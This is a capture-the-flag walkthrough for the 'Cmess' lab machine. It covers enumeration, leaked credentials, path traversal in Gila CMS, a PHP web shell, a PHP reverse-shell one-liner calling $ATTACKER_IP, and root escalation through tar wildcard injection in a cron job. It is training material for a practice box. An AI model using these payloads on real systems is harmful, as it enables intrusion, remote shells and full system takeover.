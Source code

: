
# Cmess

## ***User** Flag*

We'll start with nmap scan:

```bash
$ sudo nmap cmess.thm -Pn -p- -vv -A -T4 --script discovery,vuln -oN nmap-scan --min-parallelism 55
```

Find subdomains:

```bash
$ ./ffuf -u http://cmess.thm/ -t 55 -ic -w ~/CyberSecurity/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -H 'Host: FUZZ.cmess.thm' -fw 522
```

There's a match! Add "dev.cmess.thm" to your ***hosts*** file and visit
http://dev.cmess.thm/ in your browser. There's a development log file:

```
Development Log

> andre@cmess.thm

Have you guys fixed the bug that was found on live?
> support@cmess.thm

Hey Andre, We have managed to fix the misconfigured .htaccess file, we're hoping to patch it in the upcoming patch!
> support@cmess.thm

Update! We have had to delay the patch due to unforeseen circumstances
> andre@cmess.thm

That's ok, can you guys reset my password if you get a moment, I seem to be unable to get onto the admin panel.
> support@cmess.thm

Your password has been reset. Here: KPFTN_f2yxe%
```

So we have a pair of credentials:

> andre@cmess.thm:KPFTN_f2yxe%

Navigate to http://cmess.thm/admin and use those credentials to login.

Checkout the version: Gila CMS version 1.10.9

Find some known vulnerabilities for it.

Use path traversal to find DB credentials. Visit http://cmess.thm/admin/fm?f=./config.php

```
array (
    'host' => 'localhost',
    'user' => 'root',
    'pass' => 'r0otus3rpassw0rd',
    'name' => 'gila',
  ),
```

Time for RCE. Create a file called ***cmd.php*** With the following contents:

```php
<?php
	$param = $_GET['todo'];
	echo shell_exec($param);
?>
```

As a proof of concept, visit http://cmess.thm/tmp/cmd.php?todo=id

To gain initial foothold, send this as "todo" payload:

```bash
php -r '$sock=fsockopen("$ATTACKER_IP",$ATTACKER_PORT);popen("/bin/bash -i <&3 >&3 2>&3", "r");'
```

Upload linpeas script to the machine via your C2 and execute it. Pay close attention
to cronjobs (Escalation from andre to root) and backup files (escalation from www-data
to andre)

Andre's password is in /opt/.password.bak:

> andre:UQfsdCB7aAP6

---

## ***Root** Flag*

Look at the cronjob.

```
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```

It runs as root and uses wildcard with "tar" command.
Let's exploit the [Wildcard injection](https://materials.rangeforce.com/tutorial/2019/11/08/Linux-PrivEsc-Wildcard/)

Put your PE script (C2 beacon or just the one that sets SUID to /bin/bash)
in  ***/home/andre/backup/*** folder. Next, create these files there:

```
$ touch -- --checkpoint=1

$ touch "--checkpoint-action=exec=bash my-lpe.sh"
```

Wait for cronjob to execute and enjoy your root!

